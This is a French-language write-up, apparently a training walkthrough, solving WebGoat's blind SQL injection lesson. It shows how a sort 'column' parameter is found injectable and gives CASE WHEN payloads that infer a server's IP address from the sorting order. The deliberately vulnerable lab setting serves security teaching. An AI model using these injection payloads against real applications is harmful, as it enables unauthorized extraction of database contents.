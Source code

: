 # Injection SQL en Aveugle :see_no_evil:

## WebGoat 8.10 > (A1) Injection > SQL Injection (mitigation) > (12)

### Identification du point d'injection

Lorsque nous effectuons l'action de réorganiser le tableau, la requête suivante est envoyée :

```
/serves?column=mac
```

Si nous modifions l'URL en mettant : 

```
/serves?column=
```
Nous obtenons l'erreur suivante :

```java
here was an unexpected error (type=Internal Server Error, status=500).
java.sql.SQLSyntaxErrorException: unexpected end of statement:  required: END 
```

Le point d'injection est identifié.

### Identification de la réponse oui/non

```
/servers?column=case status when 'online' then ip else mac end
```
Ceci nous retourne un tri en fonction de MAC

```
/servers?column=case hostname when 'webgoat-prd' then id else hostname end
```

Ceci en fonction de hostname

Donc, si nous effectuons la requete suivante :

```
/servers?column=case when ip = '192.168.4.2' then id else ip end
```
Et que cela nous retourne en fonction de l'IP, alors c'est que celle-ci n'éxiste pas.

Nous pouvons donc chercher l'IP en fonction de ce qui est retourner. Si la requete nous retourne True alors ça sera trier en fonction de l'ID, si elle nous retourne false alors ce sera trier en fonction de l'IP.

```
/servers?column=case when(select ip from servers where hostname = 'webgoat-prd') > '100' then id else ip end
# True
```

